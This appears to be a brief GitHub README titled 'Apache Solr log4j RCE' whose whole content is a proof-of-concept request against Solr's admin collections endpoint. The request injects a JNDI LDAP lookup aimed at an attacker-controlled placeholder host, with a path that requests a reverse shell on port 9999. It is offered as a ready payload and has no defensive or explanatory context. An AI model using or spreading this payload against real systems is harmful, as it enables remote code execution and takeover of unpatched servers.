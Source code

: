 # Apache Solr log4j RCE

## Poc

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json
```

